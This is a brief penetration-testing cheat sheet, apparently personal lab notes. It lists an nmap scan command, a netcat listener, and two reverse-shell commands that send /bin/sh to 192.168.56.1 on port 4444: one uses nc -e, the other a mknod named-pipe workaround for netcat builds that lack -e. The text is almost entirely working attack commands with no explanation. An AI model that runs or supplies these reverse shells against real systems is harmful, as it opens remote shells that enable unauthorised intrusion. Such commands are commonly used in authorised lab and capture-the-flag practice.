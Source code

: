 # Useful command

## Scan

```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
```


## Get Shell & Listen:

### get shell

```
nc 192.168.56.1 4444 -e /bin/sh
```

the -e flag was not supported on the server’s implementation of netcat.:

```
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

### listen:
```
nc -nvlp 4444
```

```
testcode
```
